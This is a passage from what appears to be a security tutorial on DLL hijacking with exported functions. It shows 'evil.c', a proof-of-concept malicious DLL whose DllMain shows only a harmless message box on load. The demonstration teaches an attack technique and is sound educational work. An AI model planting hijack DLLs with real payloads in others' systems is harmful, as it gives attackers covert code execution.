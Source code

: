![search cscapi.dll](/assets/images/13/2021-10-12_14-52.png){:class="img-responsive"}    

And again, as you can see, Module-Definition file `cscapi.def` has been created.      

Let's take another look at the `evil.c`:
```cpp
/*
evil.c - malicious DLL
DLL hijacking with exported functions example
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-woof!", // I have changed this line for clarity, but not required
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```
